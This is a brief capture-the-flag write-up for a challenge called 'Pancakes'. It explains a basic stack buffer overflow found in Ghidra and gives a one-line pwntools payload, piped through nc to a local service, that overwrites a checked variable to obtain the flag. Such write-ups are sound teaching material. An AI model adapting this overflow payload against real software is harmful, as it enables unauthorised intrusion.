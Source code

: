 # Pancakes

## description

Attack this binary to get the flag!

## dev notes

This is a basic buffer overflow challenge.
Set the variable to the correct value to get the flag.

## solution

Manual inspection in Ghidra quickly shows that pancake has a buffer overflow of `local_14` due to the `fgets` into
`local_58`.

![](quick-inspect.png)

Simply fill the buffer that the `fgets` writes to with padding and write the value straight into the checked one!

```bash
python -c "from pwn import *;import sys; sys.stdout.buffer.write(b'a'*68 + p32(0x08406688))" | nc -q1 localhost 3000
```

(Note the use of `p32` from pwntools to get the correct endianness)
